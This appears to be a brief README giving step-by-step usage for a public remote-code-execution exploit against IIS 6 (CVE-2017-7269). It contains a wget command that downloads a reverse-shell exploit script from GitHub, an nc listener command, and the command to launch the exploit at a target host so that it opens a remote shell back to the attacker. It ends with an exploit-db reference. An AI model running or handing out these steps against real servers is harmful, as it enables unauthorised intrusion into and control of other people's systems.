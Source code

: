 ### download file
```
wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -O 41738-github.py
```

### start listener
```
nc -lnvp <lport>
```

### exploit (you may need to run it multiple times)
```
python 41738-github.py <rhost> <port> <lhost> <lport>
```

### References
https://www.exploit-db.com/exploits/41738  

